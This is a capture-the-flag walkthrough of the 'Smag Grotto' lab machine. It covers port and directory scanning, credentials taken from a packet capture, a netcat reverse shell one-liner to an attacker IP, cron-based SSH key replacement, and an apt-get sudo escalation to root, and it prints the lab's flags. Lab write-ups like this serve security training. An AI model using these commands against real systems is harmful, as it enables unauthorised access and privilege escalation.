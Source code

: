 > Smag Grott | Packet Analysing

**export IP=10.10.175.70**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn vv -p- -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
```

# Gobuster

sudo gobuster -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -t 20 -x txt,php,bak,zip -o gobuster/initial

```
/mail
```

We find a .pcap file here and it has an username and password. `helpdesk:cH4nG3M3_n0w`

We have to add `development.smag.thm` to our /etc/hosts as it says in the packet.

We have a login page now. WE can login using those credentials

We can execute remote commands. Let's spin a reverse shell

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.107.21 1234 >/tmp/f`

# Crontab

We have jake's SSH key being backed up to jake's home directory.

Let's change that to our own.

In local machine type , `ssh-keygen -o`

And I gave no password. S after sometime we can login as jake with no password.


ssh -i id_rsa jake@$IP

# User.txt

```
iusGorV7EbmxM5AuIe2w499msaSuqU3j
```

# Priv Esc

sudo -l

```
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

# GTFO-Bins

apt-get

`sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`

We are root!!

# root.txt

```
uJr6zRgetaniyHVRqqL58uRasybBKz2T
```